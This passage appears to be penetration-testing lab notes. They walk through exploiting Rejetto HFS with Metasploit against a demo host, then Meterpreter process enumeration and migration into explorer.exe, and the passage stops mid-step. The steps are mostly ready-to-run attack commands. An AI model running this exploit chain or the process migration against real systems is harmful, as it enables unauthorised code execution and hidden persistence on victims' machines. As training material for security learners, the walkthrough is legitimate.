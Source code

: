 ### Demo: Enumerating Processes & Services

#### Step 1: Start Metasploit and Exploit Rejetto HFS

Start **Metasploit**:

```bash
msfconsole
```

Load the **Rejetto HFS exploit module**:

```bash
use exploit/windows/http/rejetto_hfs_exec
```

Set the target address:

```bash
set rhosts demo.ine.local
```

Run the exploit to gain a **Meterpreter session**:

```bash
run
```

#### Step 2: Enumerating Running Processes

To list all currently running processes, use the following command in the **Meterpreter session**:

```bash
ps
```

#### Step 3: Migrating to a Stable Process

It’s often beneficial to migrate the **Meterpreter session** to a stable process such as **explorer.exe**. First, identify the **process ID (PID)** of `explorer.exe`:

```bash
pgrep explorer.exe
```

Once the process is found, migrate to it by specifying the PID:

```bash
migrate 2176
```

Migration will allow us to maintain a more stable connection. After migration, check the system architecture:

```bash
sysinfo
```

#### Step 4: Checking if a Specific Process is Running

To check if a specific process, such as **hfs.exe**, is running:
